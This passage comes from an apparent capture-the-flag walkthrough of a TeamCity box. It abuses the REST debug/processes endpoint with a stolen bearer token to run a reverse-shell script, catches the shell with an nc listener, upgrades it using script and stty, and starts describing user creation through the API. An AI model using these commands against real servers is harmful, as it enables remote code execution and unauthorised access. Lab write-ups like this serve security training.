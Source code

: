 

I'll run `bash`, with the `params` of `rev.sh`, and it hangs:



    oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=bash&params=rev.sh' -H "Authorization: Bearer $TOKEN"



At my listening `nc` there is a shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.13 50548
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
       Welcome to TeamCity Server Docker container

     * Installation directory: /opt/teamcity
     * Logs directory:         /opt/teamcity/logs
     * Data directory:         /data/teamcity_server/datadir

       TeamCity will be running under 'tcuser' user (1000/1000)

    tcuser@647a82f29ca0:~/bin$



I'll upgrade it with the [script / stty
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    tcuser@647a82f29ca0:~/bin$ script /dev/null -c bash
    Script started, file is /dev/null
       Welcome to TeamCity Server Docker container

     * Installation directory: /opt/teamcity
     * Logs directory:         /opt/teamcity/logs
     * Data directory:         /data/teamcity_server/datadir

       TeamCity will be running under 'tcuser' user (1000/1000)

    tcuser@647a82f29ca0:~/bin$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset 
    reset: unknown terminal type unknown
    Terminal type? screen
    tcuser@647a82f29ca0:~/bin$



### Via Admin Panel

#### Create User

To create a user, I'll use the `/app/rest/users` endpoint, POSTing the
user's account information:
